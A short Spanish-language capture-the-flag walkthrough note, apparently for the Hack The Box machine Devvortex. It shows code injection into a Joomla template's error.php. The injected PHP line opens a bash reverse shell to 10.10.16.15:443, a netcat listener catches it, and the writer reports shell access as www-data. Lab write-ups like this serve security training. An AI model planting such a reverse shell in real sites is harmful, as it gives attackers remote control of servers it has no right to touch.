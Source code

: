 #joomla #inyecciondecodigophpentemplatejoomla

--------

Aca apretamos en *System*

![[Devvortex19.png]]
Ahora en *Site Templates*
![[Devvortex20.png]]

Y vamos a cambiar el contenido del error.php por el siguiente 

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.15/443 0>&1'");
?>
```

![[Devvortex21.png]]
Y ahora mientras estamos en escucha con [[nc -nlvp 443]] vamos entrar al siguiente link para que se ejecute el *error.php* http://dev.devvortex.htb/templates/cassiopeia/error.php
![[Devvortex22.png]]
Obtuvimos acceso como www-data